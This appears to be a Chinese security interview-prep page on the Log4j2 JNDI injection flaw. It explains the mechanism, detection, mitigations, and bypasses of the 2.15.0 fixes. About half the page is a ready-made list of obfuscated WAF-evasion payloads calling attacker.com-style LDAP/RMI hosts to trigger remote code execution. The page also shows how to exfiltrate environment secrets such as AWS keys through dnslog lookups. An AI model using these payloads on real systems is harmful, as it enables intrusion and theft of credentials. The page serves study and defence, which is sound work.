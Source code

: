 ## Log4j2

### 谈谈Log4j2漏洞（★★）[+]

漏洞原理其实不难，简单来说就是对于`${jndi:}`格式的日志默认执行`JndiLoop.lookup`导致的RCE。日志的任何一部分插入`${}`都会进行递归处理，也就是说`log.info/error/warn`等方法如果日志内容可控，就会导致这个问题。这个漏洞本身不复杂，后续的绕过比较有趣



### Log4j2漏洞的黑盒检测（★）[+]

由于该漏洞的特性，必须要出网才可以检测，例如`dnslog`的方式

在内网中也可不使用`dnslog`而是自行实现伪`JDNI/LDAP`的服务端用于探测



### Log4j2漏洞的白盒检测（★）[+]

检查`pom.xml`或`gradle`中的依赖，是否存在`log4j2-api`和`log4j2-core`小于`2.15.0`则存在漏洞



### Log4j2的紧急修复手段（★★）

在JVM参数中添加`-Dlog4j2.formatMsgNoLookups=true`

系统环境变量中将`LOG4J_FORMAT_MSG_NO_LOOKUPS`设置为`true`

创建`log4j2.component.properties`文件并增加配置`log4j2.formatMsgNoLookups=true`

不重启应用情况下的修复手段参考另一个问题



### 知道Log4j2 2.15.0 RC1修复的绕过吗（★★★）

修复内容限制了协议和HOST以及类型，其中类型这个东西其实没用，协议的限制中包含了`LDAP`等于没限制。重点在于HOST的限制，只允许本地localhost和127.0.0.1等IP。但这里出现的问题是，加入了限制但没有捕获异常，如果产生异常会继续`lookup`所以如果在URL中加入一些特殊字符，例如空格，即可导致异常绕过HOSOT限制，然后`lookup`触发RCE



### Log4j2的两个DOS CVE了解吗（★★）[+]

其中一个DOS是`lookup`本身延迟等待和允许多个标签`${}`导致的问题

另一个DOS是嵌套标签`${}`递归解析导致栈溢出



### Log4j2 2.15.0正式版的绕过了解吗（★★★）

正式版的修复只是在之前基础上捕获了异常。这个绕过本质还是绕HOST限制。使用`127.0.0.1#evil.com`即可绕过，需要服务端配置泛域名，所以#前的127.0.0.1会被认为是某个子域名，而本地解析认为这是127.0.0.1绕过了HOST的限制。但该RCE仅可以在MAC OS和部分Linux平台成功



### Log4j2绕WAF的手段有哪些（★★）[+]

使用类似`${::-J}`的方式做字符串的绕过，还可以结合`upper`和`lower`标签进行嵌套

有一些特殊字符的情况结合大小写转换有巧妙的效果，还可以加入垃圾字符

例如：`${jnd${upper:ı}:ldap://127.0.0.1:1389/Calc}`

Akamai Bypass Log4j

```md
${jndi${123%25ff:-}:ldap://HOST:PORT/a}
```

#### Amazon AWS WAf Bypass

```md
${j${k8s:k5:-ND}i${sd:k5:-:}ldap://HOST:PORT/a}

${jnd${123%25ff:-${123%25ff:-i:}}ldap://HOST:PORT/a}
```

### 其他的绕过payloads

```md
${lower:${:a:d:-${lower:}}jndi:}

${jndi:ldap://attacker.com/a}

${j${upper:${lower:n}}di:ldap://attacker.com/a}

${${date:'j'}${date:'n'}${date:'d'}${date:'i'}:ldap://attacker.com/a}

${${env:BARFOO:-j}Ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attacker.com/a}

${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://127.0.0.1:1389/ass}

${${::-j}ndi:rmi://127.0.0.1:1389/ass}

${jndi:rmi://a.b.c}

${${lower:jndi}:${lower:rmi}://q.w.e/poc}

${${lower:${lower:jndi}}:${lower:rmi}://a.s.d/poc}

${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://l}

${${::-j}ndi:rmi://}

${${lower:jndi}:${lower:rmi}://}

${${lower:${lower:jndi}}:${lower:rmi}://

${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}:}

${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}

${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}

${jndi:rmi://adsasd.asdasd.asdasd}

${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}

${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}

${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}

${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}

${j${upper:n:-}di:ldap://example.com:1389

${j${k8s:k5:-ND}i${sd:k5:-:}ldap://kjhkjhkjh}

${j${main:\k5:-Nd}i${spring:k5:-:}ldap://kjhkjhkjh}

${j${sys:k5:-nD}${lower:i${web:k5:-:}}ldap://kjhkjhkjh}

${j${::-nD}i${::-:}ldap://kjhkjhkjh}

${j${EnV:K5:-nD}i:ldap://kjhkjhkjh}

${j${loWer:Nd}i${uPper::}ldap}

${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:l}dap${env:NaN:-:}//your.burpcollaborator.net/a}

${${upper:}jndi:ldap://example.com/a}

${j${upper::-n}di:ldap://example.com:1389/a}

${"£$_"£:a:d:-${lower:j}n}di:

${:a:d:-${lower:}j}ndi:

${:a:d:-${lower:j}n}di:
```





### Log4j2除了RCE还有什么利用姿势（★★★）[+]

利用其他的`lookup`可以做信息泄露例如`${env:USER}`和`${env:AWS_SECRET_ACCESS_KEY}`

在`SpringBoot`情况下可以使用`bundle:application`获得数据库密码等敏感信息，不过`SpringBoot`默认不使用`log4j2`

这些敏感信息可以利用`dnslog`外带`${jndi:ldap://${java:version}.xxx.dnslog.cn}`



### 不停止运行程序如何修复Log4j2漏洞（★★★）

利用JavaAgent改JVM中的字节码，可以直接删了`JndiLookup`的功能

有公众号提出类似`Shiro`改`Key`的思路，利用反射把`JndiLookup`删了也是一种办法


### Log4j2调试源码过程中为什么无法在关键处下断点（★★）

（来自于某师傅的反馈）

在最后进入`lookup`时，有一部用到了`try-resources`语法，这种情况下如果对反编译的`class`文件下断点会存在问题

解决方案是下载源码绑定到`IDEA`后在未反编译的`Java`代码中下断点调试


### Log4j2是否存在不出网的利用（★★）[+]

（来自于某师傅的反馈：红队实习面试题）

不可能存在不出网的利用，也就是说不出网情况下不可能`RCE`

由JNDI注入的基本原理可以得知，如果网络无法到达`JNDI Server`那么获取不到数据，无论是`Reference`的方式或者高版本`javaSerializedData`打本地`gadget`或者本地工厂类，任何一种利用方式的前提条件是能够收到数据，而不出网无法获得数据